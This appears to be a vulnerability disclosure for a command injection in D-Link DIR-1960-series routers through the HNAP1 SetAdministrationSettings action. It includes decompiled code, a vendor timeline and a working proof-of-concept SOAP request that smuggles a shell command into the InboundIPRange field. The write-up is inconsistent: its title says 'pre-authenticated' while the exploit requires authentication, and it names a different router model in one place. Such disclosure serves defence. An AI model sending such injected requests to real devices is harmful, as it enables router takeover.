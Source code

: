 # D-Link DIR-1960 : HNAP1 SetAdministrationSettings Pre-Authenticated Command Injection


Device : **D-Link DIR-1960, DIR-1360, DIR-2260 & DIR-3060**

Firmware: **1.11B03 Hotfix**

Endpoint: http://purenetworks.com/HNAP1/


## Description of the vulnerability
This vulnerability is present as there are no checks on user input taken from the SetAdministrationSettings action, which is passed to `twsystem`, allowing an attacker to execute arbitary code on the affected installations of the D-Link DIR-878 router.


## Technical Details

### HNAP1

D-Link uses the HNAP1 (Home Network Administration Protocol) which is a SOAP-based protocol. It can be accessed through the http://purenetworks.com/HNAP1/ with a SOAPAction HTTP header to specify the desired operation. **/bin/prog.cgi** is responsible for receiving the incoming requests, and saves the user-given parameters into nvram after processing them. On the other hand, **/bin/rc** reads from nvram then performs the operation that is requested by the user.

**/bin/rc** spawns a UDP server at port 6789, which is used by **/bin/prog.cgi** to notify it whenever there is request made by the user.


### Vulnerability

#### /bin/prog.cgi receives the request

In the **/bin/prog.cgi** binary, at the `SetAdministrationSettings` handler (0x4344cc), the parameters `InboundIPRange` is read from the XML data in the request body, then it is validated by a series of checks. After that, the parameters are saved into nvram as `remotemange_iprange`.

```c
InboundIPRange = (char *)webGetVarString(param_1,"SetAdministrationSettings/InboundIPRange");
...
nvram_safe_set("remotemange_iprange",InboundIPRange);
```

However, the checks do not ensure that `InboundIPRange` does not end with a dangerous string (e.g. `$(cmd)`), which may use to perform a command injection attack. It only checks if the part before the `/` character is a valid IP address, and the integer after `/` is a certain value. For example, `123.123.123.123/32 $(echo gg>/tmp/gg)` is considered valid.

At the end of the function, it calls `serviceApply(1, 0x13)`, which sends a notification of `restart_firewall` to **/bin/rc**.

```c
case 0x13:
    notify_rc("restart_firewall");
    break;
```


#### /bin/rc handles the request

Inside `handle_notifications`, the `restart_firewall` string leads to a call to `load_iptalbes()`.

```c
cmp = strncmp(notif_string_end, "firewall", 8);
// mode == 3 when the notification starts with "restart_"
if (cmp == 0) {
    if ((mode & 2) != 0) {
        load_iptalbes();
        IPv6_REMOTEMANGE_run();
    }
}
```

(Somehow they named the function as `load_iptalbes` lol)

`load_iptalbes` is defined in **/lib/librcm.so**. It calls a series of functions, one of which is `REMOTEMANGE_run()`.

In `REMOTEMANGE_run`, `remotemange_iprange` (saved earlier by **/bin/prog.cgi**) is loaded from nvram. After a series of checks and `sprintf` operations, the value is passed into `twsystem`. An attacker can provide a malicious value for the string (as the example given earlier) to perform a command injection attack.

```c
sprintf(command, "iptables -t nat -A %s ", "REMOTEMANGE_PREROUTING");
ptr = command + strlen(command);

if (...)
{
    sprintf(ptr, "-s %s", remotemange_iprange);
}

...

twsystem(command, 1);
```

## Exploit

After authenticating, send the following SOAP request to http://purenetworks.com/HNAP1/.

```xml
Content-Type: text/xml; charset=utf-8
SOAPAction: http://purenetworks.com/HNAP1/SetAdministrationSettings

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetAdministrationSettings xmlns="http://purenetworks.com/HNAP1/">
            <HTTPS>true</HTTPS>
            <RemoteMgt>true</RemoteMgt>
            <RemoteMgtPort>31337</RemoteMgtPort>
            <RemoteMgtHTTPS>true</RemoteMgtHTTPS>
            <InboundFilter>blah</InboundFilter>
            <InboundIPRange>123.123.123.123/32 $(echo gg>/tmp/gg) </InboundIPRange>
        </SetAdministrationSettings>
    </soap:Body>
</soap:Envelope>
```

### Usage

```
$ npm install
$ node app.js
```

Credits: https://github.com/bikerp/dsp-w215-hnap

## Timeline
05th April 2022 - First attempt to notify vendor

07th April 2022 - Second attempt to notify vendor

24th June 2022 - Third attempt to notify vendor

27th June 2022 - FundayFriday release